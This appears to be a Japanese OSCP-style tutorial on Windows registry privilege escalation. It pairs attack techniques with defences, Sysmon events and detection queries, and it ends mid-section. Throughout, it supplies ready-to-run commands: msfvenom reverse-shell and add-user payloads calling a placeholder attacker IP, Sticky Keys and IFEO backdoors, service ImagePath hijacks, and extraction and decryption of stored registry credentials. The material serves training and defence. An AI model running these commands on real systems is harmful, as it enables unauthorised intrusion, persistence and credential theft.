








## TL;DR

Windowsレジストリは、OS・サービス・アプリケーションの設定を格納する集中型データベースである。レジストリキーの設定ミス（弱いACL、不適切なポリシー設定、保存された認証情報）は、Windowsにおける**ローカル権限昇格**の信頼できるソースである。本ガイドでは、OSCPおよびペネトレーションテストに関連するレジストリベースの権限昇格ベクトルをすべて解説する。

**クイックリファレンス — レジストリ権限昇格手法：**

| 手法 | 必要条件 | 結果 |
|---|---|---|
| AlwaysInstallElevated | HKLM + HKCU両方のキーが`1` | MSIがSYSTEMとして実行 |
| AutoRunプログラム乗っ取り | 書込可能なAutoRun実行ファイルパス | ログオン時にコード実行 |
| サービスレジストリ変更 | 書込可能なサービスレジストリキー | サービスが攻撃者バイナリを実行 |
| Winlogon認証情報窃取 | レジストリ内の平文パスワード | 認証情報の再利用 / ラテラルムーブメント |
| Image File Execution Options | IFEOキーへの書込アクセス | デバッガが任意のプロセス起動を乗っ取り |
| 引用符なしサービスパス | スペースを含む引用符なしパス | パス解釈によるEXEハイジャック |
| AppInit_DLLs | AppInitキーへの書込アクセス | すべてのGUIプロセスにDLLがロード |

---

## 背景 — Windowsレジストリ構造

```
HKEY_LOCAL_MACHINE (HKLM)     ← システム全体の設定（変更には管理者権限）
├── SOFTWARE                   ← インストール済みソフトウェア設定
├── SYSTEM                     ← サービス、ドライバー、ブート設定
│   └── CurrentControlSet
│       └── Services           ← 全Windowsサービス定義
├── SAM                        ← セキュリティアカウントマネージャー（ハッシュ）
└── SECURITY                   ← LSAシークレット

HKEY_CURRENT_USER (HKCU)      ← 現在のユーザー設定（ユーザーが変更可能）
├── SOFTWARE
│   └── Microsoft\Windows\CurrentVersion\Run   ← ユーザーレベルAutoRun
└── Environment

HKEY_USERS (HKU)               ← 全ユーザープロファイル
HKEY_CLASSES_ROOT (HKCR)       ← ファイル関連付け / COMオブジェクト
```

### 主要な列挙コマンド

```cmd
:: 特定のキーをクエリ
reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"

:: レジストリ全体でパスワードを検索
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

:: レジストリキーの権限を確認
accesschk.exe /accepteula -kvusw "HKLM\SYSTEM\CurrentControlSet\Services\VulnSvc"

:: オフライン分析用にキーをエクスポート
reg export "HKLM\SYSTEM\CurrentControlSet\Services" services.reg
```

---

## 1. AlwaysInstallElevated

HKLMとHKCU両方の`AlwaysInstallElevated`レジストリ値が`1`に設定されている場合、**任意のユーザーがSYSTEM権限でMSIパッケージをインストール**できる。OSCPで最も頻繁にテストされる権限昇格ベクトルの一つ。

### 検出

```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

脆弱性を悪用するには、両方とも`0x1`を返す必要がある。

### 攻撃フロー



### 悪用

**悪意のあるMSIの生成：**

```bash
# リバースシェルMSI
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f msi -o shell.msi

# ローカル管理者ユーザー追加
msfvenom -p windows/adduser USER=hacker PASS=P@ssw0rd123 -f msi -o adduser.msi
```

**ターゲットでの実行：**

```cmd
:: サイレントインストール — GUI表示なし、ユーザー操作なし
msiexec /quiet /qn /i C:\Temp\shell.msi
```

| フラグ | 説明 |
|---|---|
| `/quiet` | すべてのUIを抑制 |
| `/qn` | UIを完全に非表示 |
| `/i` | MSIパッケージをインストール |

**winPEASでの検出：**

```
[+] Checking AlwaysInstallElevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!
```

### 防御

```powershell
# AlwaysInstallElevatedを無効化
reg delete "HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer" /v AlwaysInstallElevated /f
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer" /v AlwaysInstallElevated /f

# または0に設定
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\Installer" -Name "AlwaysInstallElevated" -Value 0
Set-ItemProperty -Path "HKCU:\SOFTWARE\Policies\Microsoft\Windows\Installer" -Name "AlwaysInstallElevated" -Value 0
```

---

## 2. AutoRunプログラムの乗っ取り

AutoRunレジストリキーに記載されたプログラムは、ユーザーログオン時に自動実行される。**実行ファイルパスが低権限ユーザーによって書込可能**な場合、悪意のあるバイナリに置換できる。

### AutoRunレジストリの場所

```cmd
:: マシンレベル（全ユーザー）
reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce"

:: ユーザーレベル（現在のユーザー）
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce"

:: 追加の場所
reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunService"
reg query "HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Run"
```

### 攻撃フロー



### 悪用

**ステップ1：書込可能なAutoRunバイナリの特定**

```cmd
:: すべてのAutoRunエントリをリスト
reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"

:: ファイル権限を確認
icacls "C:\Program Files\VulnApp\monitor.exe"
:: 確認対象：BUILTIN\Users:(F) or BUILTIN\Users:(M) or BUILTIN\Users:(W)
```

**ステップ2：ペイロードに置換**

```bash
# ペイロード生成
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f exe -o monitor.exe
```

```cmd
:: 元のファイルをバックアップして置換
copy "C:\Program Files\VulnApp\monitor.exe" "C:\Program Files\VulnApp\monitor.exe.bak"
copy /Y C:\Temp\monitor.exe "C:\Program Files\VulnApp\monitor.exe"
```

**ステップ3：管理者ログインまたは再起動を待つ**

```bash
# コールバックを待機
nc -lvnp 4444
```

### 防御

- AutoRun実行ファイルディレクトリへの書込アクセスをACLで制限
- AutoRun実行ファイルに署名し、AppLocker/WDACでコード署名を強制
- グループポリシーでAutoRunキーを定期的に監査

---

## 3. サービスレジストリキーの変更

Windowsサービスは`HKLM\SYSTEM\CurrentControlSet\Services\<ServiceName>`のレジストリで定義されている。低権限ユーザーがサービスのレジストリキーに**書込アクセス**を持つ場合、`ImagePath`の値を悪意のある実行ファイルに変更できる。

### サービスレジストリ構造

```
HKLM\SYSTEM\CurrentControlSet\Services\<ServiceName>
├── ImagePath         ← サービスバイナリへのパス（悪用可能）
├── ObjectName        ← サービス実行アカウント（例：LocalSystem）
├── Start             ← 開始タイプ（2=自動, 3=手動, 4=無効）
├── Type              ← サービスタイプ
├── FailureActions    ← 失敗時の回復アクション
└── DependOnService   ← サービス依存関係
```

### 検出

```cmd
:: 弱いレジストリACLを持つサービスを発見
accesschk.exe /accepteula -kvusw "HKLM\SYSTEM\CurrentControlSet\Services" 2>nul

:: 特定のサービスを確認
accesschk.exe /accepteula -kvusw "HKLM\SYSTEM\CurrentControlSet\Services\VulnSvc"

:: 非管理者グループのKEY_ALL_ACCESSまたはKEY_WRITEを探す
```

**PowerShell列挙：**

```powershell
# パスと開始アカウントを含むサービス情報を取得
Get-WmiObject Win32_Service | Where-Object {$_.StartName -eq "LocalSystem"} |
    Select-Object Name, PathName, StartMode | Format-Table -AutoSize

# サービスのレジストリACLを確認
$acl = Get-Acl "HKLM:\SYSTEM\CurrentControlSet\Services\VulnSvc"
$acl.Access | Where-Object {$_.IdentityReference -match "Users|Everyone|Authenticated"} |
    Format-Table IdentityReference, RegistryRights
```

### 攻撃フロー



### 悪用

```cmd
:: 1. 脆弱なサービスを特定
accesschk.exe /accepteula -kvusw "HKLM\SYSTEM\CurrentControlSet\Services\VulnSvc"
:: 出力: HKLM\SYSTEM\CurrentControlSet\Services\VulnSvc
::   RW NT AUTHORITY\Authenticated Users
::       KEY_ALL_ACCESS

:: 2. サービスの実行アカウントを確認
reg query "HKLM\SYSTEM\CurrentControlSet\Services\VulnSvc" /v ObjectName
:: 出力: LocalSystem

:: 3. ImagePathをペイロードに変更
reg add "HKLM\SYSTEM\CurrentControlSet\Services\VulnSvc" /v ImagePath /t REG_EXPAND_SZ /d "C:\Temp\shell.exe" /f

:: 4. サービスを再起動
sc stop VulnSvc
sc start VulnSvc
```

### sc configとの違い

| 方法 | メカニズム | 使用場面 |
|---|---|---|
| `sc config binPath=` | サービスコントロールマネージャーAPIを使用 | サービスの`SERVICE_CHANGE_CONFIG`権限がある場合 |
| `reg add ImagePath` | レジストリの直接変更 | レジストリ書込アクセスがあるがSCMアクセスがない場合 |

両方とも同じ結果（サービスバイナリパスの変更）を達成するが、異なるアクセスパスを通る。

### 防御

- `accesschk`やグループポリシーでサービスレジストリキーを監査
- サービスキーの`KEY_WRITE`をAdministratorsのみに制限
- 監視のためSysmon Event ID 12/13（レジストリオブジェクト作成/変更）を有効化

---

## 4. レジストリからの認証情報窃取

Windowsはレジストリに様々な認証情報と認証設定を格納している。ポストエクスプロイトにおける認証情報窃取の主要ターゲットである。

### Winlogon — AutoLogon認証情報

AutoLogonが設定されている場合、認証情報は平文で保存される：

```cmd
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

**確認すべきキー：**

| 値 | 説明 |
|---|---|
| `DefaultUserName` | 自動ログオンユーザー名 |
| `DefaultPassword` | 自動ログオンパスワード（平文！） |
| `DefaultDomainName` | 自動ログオンのドメイン |
| `AutoAdminLogon` | `1` = 自動ログオン有効 |

```cmd
:: ワンライナー
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword 2>nul
```

### VNCパスワード

VNCサーバーは暗号化されたパスワードをレジストリに格納する（既知の固定鍵で暗号化）：

```cmd
:: TightVNC
reg query "HKLM\SOFTWARE\TightVNC\Server" /v Password
reg query "HKLM\SOFTWARE\TightVNC\Server" /v PasswordViewOnly

:: RealVNC
reg query "HKLM\SOFTWARE\RealVNC\WinVNC4" /v Password

:: UltraVNC
reg query "HKLM\SOFTWARE\ORL\WinVNC3\Default" /v Password
```

**VNCパスワードの復号：**

```bash
# vncpwdツールを使用
echo -n '<hex_password>' | xxd -r -p | openssl enc -des-cbc -nopad -nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d

# またはmsfconsoleを使用
msf> irb
>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
>> require 'rex/proto/rfb'
>> Rex::Proto::RFB::Cipher.decrypt ["<hex>"].pack('H*'), fixedkey
```

### PuTTY保存セッション

```cmd
reg query "HKCU\SOFTWARE\SimonTatham\PuTTY\Sessions" /s
```

**有用なフィールド：**

| 値 | 説明 |
|---|---|
| `HostName` | ターゲットホスト |
| `UserName` | 保存されたユーザー名 |
| `ProxyPassword` | プロキシ認証情報 |
| `PublicKeyFile` | 秘密鍵ファイルへのパス |

### 保存されたRDP認証情報

```cmd
:: 保存されたRDP接続をリスト
reg query "HKCU\SOFTWARE\Microsoft\Terminal Server Client\Servers" /s

:: cmdkeyと組み合わせて使用
cmdkey /list
:: "Domain: target-server"が表示された場合：
runas /savecred /user:admin "cmd.exe /c C:\Temp\shell.exe"
```

### WiFiパスワード

```cmd
:: 保存されたWiFiプロファイルをリスト
netsh wlan show profiles

:: 特定のプロファイルのパスワードを抽出
netsh wlan show profile name="WiFiName" key=clear
```

### SNMPコミュニティストリング

```cmd
reg query "HKLM\SYSTEM\CurrentControlSet\Services\SNMP\Parameters\ValidCommunities"
```

### レジストリパスワード包括検索

```cmd
:: HKLM全体で"password"を検索
reg query HKLM /f password /t REG_SZ /s 2>nul

:: HKCU全体で"password"を検索
reg query HKCU /f password /t REG_SZ /s 2>nul

:: "passwd"を検索
reg query HKLM /f passwd /t REG_SZ /s 2>nul

:: Base64エンコード文字列を検索（エンコードされた認証情報の可能性）
reg query HKLM /f "==" /t REG_SZ /s 2>nul
```

### 攻撃フロー



### 防御

- 管理者アカウントでAutoLogonを使用しない
- Credential Guardを使用してLSASS格納の認証情報を保護
- コンプライアンスツールでレジストリ内の平文パスワードを監査
- 平文保存の代わりにDPAPI付きのWindows Credential Managerを使用

---

## 5. Image File Execution Options（IFEO）— デバッガハイジャック

IFEOはデバッグ用に設計されたWindows機能で、特定の実行ファイルが起動するたびに起動するデバッガを指定できる。攻撃者はこれを悪用して、悪意のあるバイナリを「デバッガ」として設定し、**任意のプロセス起動を乗っ取る**。

### レジストリの場所

```
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<target.exe>
    Debugger = "C:\Temp\shell.exe"
```

### 攻撃フロー



### 悪用 — Sticky Keysバックドア

古典的なSticky Keys攻撃はIFEOを使用してアクセシビリティツールを`cmd.exe`に置換する：

```cmd
:: Sticky Keys（sethc.exe）— Shiftを5回押すとトリガー
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\Windows\System32\cmd.exe" /f

:: ユーティリティマネージャー（utilman.exe）— ロック画面でWin+Uでトリガー
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /v Debugger /t REG_SZ /d "C:\Windows\System32\cmd.exe" /f

:: スクリーンキーボード（osk.exe）
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" /v Debugger /t REG_SZ /d "C:\Windows\System32\cmd.exe" /f

:: ナレーター（narrator.exe）
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\narrator.exe" /v Debugger /t REG_SZ /d "C:\Windows\System32\cmd.exe" /f
```

**使用方法：** ログイン/ロック画面でアクセシビリティツールをトリガー → `cmd.exe`がSYSTEMとして開く。

### 悪用 — 永続的バックドア

```cmd
:: 頻繁に使用されるアプリケーションを乗っ取り
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v Debugger /t REG_SZ /d "C:\Temp\backdoor.exe" /f

:: ユーザーがnotepad.exeを開くと → backdoor.exeが先に実行される
:: 元のアプリケーションパスはデバッガの引数として渡される
```

### サイレントプロセス終了監視（上級）

よりステルスな変種で、`SilentProcessExit`を使用してプロセス終了時にペイロードをトリガーする：

```cmd
:: notepad.exeの終了を監視
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512 /f

reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /t REG_SZ /d "C:\Temp\payload.exe" /f
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1 /f
```

### 防御

| 緩和策 | 詳細 |
|---|---|
| IFEOレジストリキーの監視 | `Image File Execution Options`に対するSysmon Event ID 12/13 |
| 書込アクセスの制限 | AdministratorsのみがIFEOキーを変更できるようにする |
| ロック画面でのアクセシビリティツール無効化 | グループポリシー → `コンピューターの構成\管理用テンプレート\Windowsコンポーネント\Windowsログオンオプション` |
| AppLocker / WDAC | 未承認の実行ファイルの実行を防止 |

---

## 6. AppInit_DLLs — すべてのGUIプロセスへのインジェクション

`AppInit_DLLs`レジストリ値は、`user32.dll`をロードするすべてのプロセス（基本的にすべてのGUIアプリケーション）に読み込まれるDLLを指定する。

### レジストリの場所

```cmd
:: 64ビットDLL
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs

:: 64ビットシステム上の32ビットDLL
reg query "HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs
```

### 攻撃フロー



### 悪用

```cmd
:: AppInit_DLLsの読み込みを有効化
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t REG_DWORD /d 1 /f

:: 悪意のあるDLLを設定
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t REG_SZ /d "C:\Temp\payload.dll" /f

:: DLLがすべての新しいGUIプロセスに読み込まれる
```

> **注意：** 変更には管理者権限が必要。権限昇格よりも主に**永続化**に使用される。セキュアブート有効のWindows 8+では、`RequireSignedAppInit_DLLs`が`0`に設定されていない限り、`AppInit_DLLs`はコード署名されたDLLを要求する。

### 防御

```cmd
:: AppInit_DLLsを無効化
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t REG_DWORD /d 0 /f

:: セキュアブートを有効化（Windows 8+で署名されたAppInit_DLLsを強制）
:: 確認：
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v RequireSignedAppInit_DLLs
```

---

## 7. 引用符なしサービスパス（レジストリの観点）

サービスの`ImagePath`レジストリ値にスペースが含まれ**引用符で囲まれていない**場合、Windowsはパスを曖昧に解決しようとし、攻撃者が中間パスにバイナリを配置できる。

### Windowsの引用符なしパス解決方法

引用符なしパス`C:\Program Files\Vuln App\Service\svc.exe`の場合、Windowsは順番に試行する：

```
1. C:\Program.exe
2. C:\Program Files\Vuln.exe
3. C:\Program Files\Vuln App\Service\svc.exe  ← 意図されたターゲット
```

### 検出

```cmd
:: 引用符なしサービスパスを発見（適切に引用符付きおよびシステムパスを除外）
wmic service get name,pathname,startmode | findstr /iv "C:\Windows\\" | findstr /iv "\""

:: またはレジストリ経由
reg query "HKLM\SYSTEM\CurrentControlSet\Services" /s /v ImagePath | findstr /vi "\"" | findstr /i "Program Files"
```

**PowerShell：**

```powershell
Get-WmiObject Win32_Service |
    Where-Object { $_.PathName -notmatch '^"' -and $_.PathName -match '\s' -and $_.PathName -notmatch 'C:\\Windows' } |
    Select-Object Name, PathName, StartName
```

### 攻撃フロー



### 悪用

```cmd
:: 1. 脆弱なサービスを特定
wmic service get name,pathname,startmode | findstr /iv "C:\Windows\\" | findstr /iv "\""

:: 2. 中間ディレクトリの書込権限を確認
icacls "C:\Program Files\Vuln App"
:: 確認対象：BUILTIN\Users:(W) or (M) or (F)

:: 3. 切り詰められたパスに一致する名前のペイロードを生成
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f exe -o Vuln.exe

:: 4. ペイロードを配置
copy Vuln.exe "C:\Program Files\Vuln.exe"

:: 5. サービスを再起動
sc stop VulnSvc
sc start VulnSvc
```

### 防御

```cmd
:: 修正：ImagePathに引用符を追加
reg add "HKLM\SYSTEM\CurrentControlSet\Services\VulnSvc" /v ImagePath /t REG_EXPAND_SZ /d "\"C:\Program Files\Vuln App\Service\svc.exe\"" /f
```

---

## OSCPワークフロー — レジストリ権限昇格チェックリスト



---

## 自動列挙

### winPEAS

```cmd
.\winPEASx64.exe
```

**winPEAS出力のレジストリ関連チェック：**

```
[+] Checking AlwaysInstallElevated
[+] Looking for AutoLogon credentials
[+] Checking for Unquoted Service Paths
[+] Enumerating AutoRun programs
[+] Searching known registry keys for credentials
[+] Checking AppInit_DLLs
```

### PowerUp（PowerSploit）

```powershell
Import-Module .\PowerUp.ps1
Invoke-AllChecks

# 個別チェック：
Get-RegistryAlwaysInstallElevated
Get-RegistryAutoLogon
Get-UnquotedService
Get-ModifiableRegistryAutoRun
```

### Seatbelt

```cmd
.\Seatbelt.exe -group=system
.\Seatbelt.exe NonstandardServices AutoRuns CredEnum
```

---

## 検知と防御サマリー

### レジストリ監視のためのSysmonイベント

| イベントID | 説明 | ユースケース |
|---|---|---|
| 12 | レジストリオブジェクト追加/削除 | 新しいIFEOキー、サービス作成の検知 |
| 13 | レジストリ値の設定 | ImagePath変更、AlwaysInstallElevatedの検知 |
| 14 | レジストリオブジェクトの名前変更 | レジストリキー操作の検知 |

### グループポリシーによる強化

```
コンピューターの構成 → 管理用テンプレート:
├── Windowsコンポーネント
│   ├── Windowsインストーラー
│   │   └── "常に管理者特権でインストールする" → 無効
│   └── Windowsログオンオプション
│       └── ロック画面でのアクセシビリティツールを無効化
├── システム
│   └── グループポリシー
│       └── レジストリ変更の監査
└── セキュリティ設定
    └── レジストリ
        └── サービスキーへの書込アクセスを制限
```

### 監視クエリ（Splunk/ELK）

```
# AlwaysInstallElevatedの設定を検知
EventCode=13 TargetObject="*\\Installer\\AlwaysInstallElevated" Details="DWORD (0x00000001)"

# IFEOデバッガの追加を検知
EventCode=13 TargetObject="*\\Image File Execution Options\\*\\Debugger"

# サービスImagePathの変更を検知
EventCode=13 TargetObject="*\\CurrentControlSet\\Services\\*\\ImagePath"

# AppInit_DLLsの変更を検知
EventCode=13 TargetObject="*\\Windows\\AppInit_DLLs"
```

---

## クイックコマンドリファレンス

```cmd
:: === AlwaysInstallElevated ===
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
msiexec /quiet /qn /i C:\Temp\shell.msi

:: === AutoRun ===
reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
icacls "C:\path\to\autorun.exe"

:: === サービスレジストリ ===
accesschk.exe /accepteula -kvusw "HKLM\SYSTEM\CurrentControlSet\Services\<svc>"
reg add "HKLM\SYSTEM\CurrentControlSet\Services\<svc>" /v ImagePath /t REG_EXPAND_SZ /d "C:\Temp\shell.exe" /f

:: === 認証情報窃取 ===
